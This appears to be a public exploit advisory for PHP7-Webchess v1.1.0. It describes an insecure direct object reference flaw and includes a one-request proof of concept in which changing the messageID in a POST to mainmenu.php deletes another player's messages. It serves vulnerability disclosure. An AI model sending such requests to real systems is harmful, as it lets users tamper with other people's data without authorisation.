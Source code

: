 # Exploit Title: PHP7-Webchess v1.1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete the message that is owned by other player(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /mainmenu.php HTTP/1.1
...

messageID=4(CHANGE HERE)&ToDo=HideMessage
```